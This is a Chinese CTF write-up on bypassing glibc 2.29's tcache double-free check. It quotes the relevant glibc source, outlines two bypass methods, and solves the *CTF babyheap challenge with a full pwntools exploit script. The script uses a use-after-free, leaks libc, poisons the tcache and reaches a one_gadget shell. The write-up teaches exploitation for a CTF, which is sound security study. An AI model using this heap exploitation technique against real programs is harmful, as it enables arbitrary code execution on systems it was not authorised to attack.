


libc2.29_tcache_doublefree¶
* CTF上遇到的题目。给的是最新版的 libc2.27 ，新增了在 libc2.29 上的 tcache double free 检测。
tcache 新增防护机制¶
tcache_entry¶
Tcache_entry 结构体新增了指针 key 放在 bk 位，作用是检测 tcache double free ：
typedef struct tcache_entry
{
struct tcache_entry *next;
/* This field exists to detect double frees. */
struct tcache_perthread_struct *key;
} tcache_entry;
tcache_put¶
用 tcache_put() 放堆进 tcache bin 时，tcache_perthread_struct 地址被写入 e->key ，即 tcache 结构体堆地址写入释放堆的 bk 位：
/* Caller must ensure that we know tc_idx is valid and there's room
for more chunks. */
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
assert (tc_idx < TCACHE_MAX_BINS);
/* Mark this chunk as "in the tcache" so the test in _int_free will
detect a double free. */
e->key = tcache;//写入tcache_perthread_struct地址
//定义：static __thread tcache_perthread_struct *tcache = NULL;
e->next = tcache->entries[tc_idx];
tcache->entries[tc_idx] = e;
++(tcache->counts[tc_idx]);
}
tcache_get¶
用 tcache_get() 取 bin 中堆时，将该区域置零：
/* Caller must ensure that we know tc_idx is valid and there's
available chunks to remove. */
static __always_inline void *
tcache_get (size_t tc_idx)
{
tcache_entry *e = tcache->entries[tc_idx];
assert (tc_idx < TCACHE_MAX_BINS);
assert (tcache->entries[tc_idx] > 0);
tcache->entries[tc_idx] = e->next;
--(tcache->counts[tc_idx]);
e->key = NULL;
return (void *) e;
}

free¶
free() 函数中检查：检测 e->key == tcache ，如果满足条件就遍历 tcache 查看是否有相同堆块，有则弹出错误 free(): double free detected in tcache 2 ：
#if USE_TCACHE
{
size_t tc_idx = csize2tidx (size);
if (tcache != NULL && tc_idx < mp_.tcache_bins)
{
/* Check to see if it's already in the tcache. */
tcache_entry *e = (tcache_entry *) chunk2mem (p);
/* This test succeeds on double free. However, we don't 100%
trust it (it also matches random payload data at a 1 in
2^<size_t> chance), so verify it's not an unlikely
coincidence before aborting. */
if (__glibc_unlikely (e->key == tcache))
{
tcache_entry *tmp;
LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
for (tmp = tcache->entries[tc_idx];
tmp;
tmp = tmp->next)
if (tmp == e)
malloc_printerr ("free(): double free detected in tcache 2");
/* If we get here, it was a coincidence. We've wasted a
few cycles, but don't abort. */
}
if (tcache->counts[tc_idx] < mp_.tcache_count)
{
tcache_put (p, tc_idx);
return;
}
}
}
#endif
绕过思路¶
新增保护主要还是用到e->key这个属性，因此绕过想绕过检测进行 double free ，这里也是入手点。
绕过思路有以下两个：
- 使
e->key失效（置零）：
如果有UAF漏洞或堆溢出，可以修改e->key为空，或者其他非tcache_perthread_struct的地址。这样可以直接绕过_int_free里面第一个if判断。不过如果UAF或堆溢出能直接修改chunk的fd的话，根本就不需要用到double free了。
- 使检测机制发生错误：
利用堆溢出，修改chunk的size，最差的情况至少要做到 off by null 。留意到_int_free里面判断当前chunk是否已存在 tcache 的地方，它是根据 chunk 的大小去查指定的 tcache 链，由于我们修改了 chunk 的 size ，查找 tcache 链时并不会找到该 chunk ，满足 free 的条件。虽然 double free 的 chunk 不在同一个 tcache 链中，不过不影响我们使用 tcache poisoning 进行攻击。
*CTF babyheap¶
程序 delete 函数 UAF ：
void delete()
{
int v0; // [rsp+Ch] [rbp-4h]
puts("input index");
v0 = readInt();
if ( v0 < 0 || v0 > 15 || !pools[v0] ) // 存在指针
{
puts("bye!");
exit(0);
}
free((void *)pools[v0]); // UAF
}
限制堆大小在 0xF~0x60 范围，提供一次申请&写入 0x400 的机会。一开始用这个 0x400 只是泄露地址，后续因为无法控制 tcachebin 的 fd 指针，而无法进行下去。
ssize_t edit()
{
int index; // [rsp+Ch] [rbp-4h]
puts("input index");
index = readInt();
if ( index < 0 || index > 15 || !pools[index] )
{
puts("bye!");
exit(0);
}
puts("input content");
return read(0, (void *)(pools[index] + 8LL), (unsigned int)(sizes[index] - 8));// 从bk开始写入
}
最后发现还需要用这个 0x400 控制 tcache bin 的 fd 。也就是这个 0x400 需要申请在 tcache bin 中的空闲空间，但是 tcache bin 在申请大堆块时，不会被整理后放入 unsorted bin 中，fastbin 等就会，所以利用 UAF 多次释放堆块填满 tcache bin 后，放入到 fastbin 中。由于还要泄露地址，所以 fastbin 中要两个连续堆块，遍历整理是触发 unlink 在 fd 和 bk 处写入 main_arean 地址。

由于申请堆后，马上就写入 name ，且就这一次写入机会，所以要调试找到 main_arean 与目标地址偏移，partly write 将 fd 修改为 目标地址，后续通过申请 tcache 对应大小就能够将堆分配到目标地址：

EXP¶
from pwn import *
context(log_level='debug')
# p = process(["/lib/x86_64-linux-gnu/ld-2.27.so", "./pwn"], env={"LD_PRELOAD":"./libc.so.6"})
sh = process("./pwn")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
def add(index,size):
sh.recvuntil(">> \n")
sh.sendline("1")
sh.recvuntil(" index\n")
sh.sendline(str(index))
sh.recvuntil(" size")
sh.sendline(str(size))
def delete(index):
sh.recvuntil(">> \n")
sh.sendline("2")
sh.recvuntil(" index\n")
sh.sendline(str(index))
def edit(index,content):
sh.recvuntil(">> \n")
sh.sendline("3")
sh.recvuntil(" index\n")
sh.sendline(str(index))
sh.recvuntil("content\n")
sh.send(content)
def show(index):
sh.recvuntil(">> \n")
sh.sendline("4")
sh.recvuntil(" index\n")
sh.sendline(str(index))
def editname(name):
sh.recvuntil(">> \n")
sh.sendline("5")
sh.recvuntil("ame:\n")
sh.send(name)
def showname():
sh.recvuntil(">> \n")
sh.sendline("6")
add(0,0x20)
add(1,0x30)
for i in range(8):
delete(0)
edit(0,p64(0))
for i in range(8):
delete(1)
edit(1,p64(0))
gdb.attach(sh)
editname('\x28')
show(0)
addr = u64(sh.recv(6).ljust(8,'\x00'))
print 'addr:'+hex(addr)
libc_base = addr - 0x3ebc28
print 'libc_base:'+hex(libc_base)
add(0,0x20)
add(0,0x20)
edit(0,p64(libc_base+0xe5622))
sh.recvuntil(">> \n")
sh.sendline("1")
sh.recvuntil(" index\n")
sh.sendline("2")
sh.recvuntil("input size")
sh.sendline("60")
#attach(sh)
'''
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
rsp & 0xf == 0
rcx == NULL
0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
[rsp+0x40] == NULL
0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
[rsp+0x70] == NULL
constraints:
rsp & 0xf == 0
rcx == NULL
0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
[rsp+0x40] == NULL
0xe5617 execve("/bin/sh", [rbp-0x88], [rbp-0x70])
constraints:
[[rbp-0x88]] == NULL || [rbp-0x88] == NULL
[[rbp-0x70]] == NULL || [rbp-0x70] == NULL
0xe561e execve("/bin/sh", rcx, [rbp-0x70])
constraints:
[rcx] == NULL || rcx == NULL
[[rbp-0x70]] == NULL || [rbp-0x70] == NULL
0xe5622 execve("/bin/sh", rcx, rdx)
constraints:
[rcx] == NULL || rcx == NULL
[rdx] == NULL || rdx == NULL
0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
[rsp+0x70] == NULL
0x10a428 execve("/bin/sh", rsi, [rax])
constraints:
[rsi] == NULL || rsi == NULL
[[rax]] == NULL || [rax] == NULL
'''
sh.interactive()
参考文章¶
tcache poisoning在glibc2.29中的利用小结